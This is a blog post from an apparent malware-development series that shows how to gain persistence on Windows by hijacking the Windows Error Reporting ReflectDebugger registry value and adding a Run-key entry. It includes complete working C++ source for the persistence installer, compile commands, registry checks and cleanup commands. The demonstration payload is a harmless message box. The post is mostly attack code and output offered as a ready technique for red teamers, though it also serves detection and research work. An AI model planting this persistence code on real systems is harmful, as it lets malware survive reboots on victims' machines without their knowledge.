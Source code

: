 ```yaml
---
title:  "Malware development: persistence - part 18. Windows Error Reporting. Simple C++ example."
date:   2022-11-02 03:00:00 +0300
header:
  teaser: "/assets/images/78/2022-11-02_05-28.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/78/2022-11-02_05-28.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence trick: via `WerFault.exe`.     

### WerFault.exe

While studying the behavior of Windows Error Reporting, I came across an interesting Registry path:     

`HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs`

If we run command `WerFault.exe -pr <value>` it is read `HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path_value>`. This command run `WerFault.exe` on mode which is called *"reflective debugger"* and it is very interesting. For example run `WerFault.exe -pr 1` and check it via Sysinternals Process Monitor:     

![pers](/assets/images/78/2022-11-02_04-48.png){:class="img-responsive"}    

![pers](/assets/images/78/2022-11-02_04-49.png){:class="img-responsive"}    

Add another filter:    

![pers](/assets/images/78/2022-11-02_04-51.png){:class="img-responsive"}    

As a result, we have a loophole for hijacking this value:     

![pers](/assets/images/78/2022-11-02_04-52.png){:class="img-responsive"}    

So, what is the trick? We can replace registry value `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger` with our evil application, because `WerFault.exe` not only read this value but also run it. And of course we can use it for persistence.    

### practical example

For simplicity, as usually, my "evil" application is just `meow-meow` messagbox (`hack.cpp`):     

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

And then, create script which create registry key value with my "evil" app:    

```cpp
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
}
```

Also, I used [one of the classic trick](/tutorial/2022/04/20/malware-pers-1.html) for persistence:     

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, strlen(wf));
  RegCloseKey(hkey);
}
```

As a result, the final source code looks something like this (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistense via WerFault.exe
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/02/malware-pers-18.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  // startup
  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, strlen(wf));
    RegCloseKey(hkey);
  }
  return 0;
}
```

### demo

Let's go to see everything in action. Compile our "evil" app:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/78/2022-11-02_04-54.png){:class="img-responsive"}    

and persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/78/2022-11-02_04-55.png){:class="img-responsive"}    

Before run everything, first of all, check registry key and value:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

Run "malware" for checking correctness:     

```powershell
.\hack.exe
```

![pers](/assets/images/78/2022-11-02_04-56.png){:class="img-responsive"}    

Also, check registry keys which used for persistence logic:     

```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/78/2022-11-02_04-58.png){:class="img-responsive"}    

Then, run `pers.exe`:    

```powershell
.\pers.exe
```

and check Windows Error Reporting registry key again:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
```

![pers](/assets/images/78/2022-11-02_05-08.png){:class="img-responsive"}    

As you can see, key value is edited and we can check correctness via running:    

```powershell
WerFault.exe -pr 1
```

![pers](/assets/images/78/2022-11-02_05-10.png){:class="img-responsive"}    

Then, logout and login:    

![pers](/assets/images/78/2022-11-02_05-13.png){:class="img-responsive"}    

and after a few seconds our `meow-meow` messagebox is popped-up as expected:    

![pers](/assets/images/78/2022-11-02_05-14.png){:class="img-responsive"}    

You can check the properties of `hack.exe` via Process Hacker 2:     

![pers](/assets/images/78/2022-11-02_05-15.png){:class="img-responsive"}    

Also, pay attention that admin privileges required for hijacking Windows Error Reporting, but for persistence we use low-level privileges:     

```powershell
Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" -Name "ReflectDebugger"
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "meow"
```

![pers](/assets/images/78/2022-11-02_05-17.png){:class="img-responsive"}    

![pers](/assets/images/78/2022-11-02_05-22.png){:class="img-responsive"}    

![pers](/assets/images/78/2022-11-02_05-22_1.png){:class="img-responsive"}    

Which can you notice if you decide to "return everything back to its place".    

So, as you can see everything is worked perfectly! =^..^=

> The next one was supposed to be 17, but it will come out together with the third part about the theft of tokens. I couldn't understand for 10 minutes why it doesn't work for me :)    

![pers](/assets/images/78/2022-11-02_05-06.png){:class="img-responsive"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[MSDN Windows Error Reporting](https://learn.microsoft.com/en-us/windows/win32/wer/windows-error-reporting)       
[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1]((/tutorial/2022/04/20/malware-pers-1.html))       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-02-malware-pers-18)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
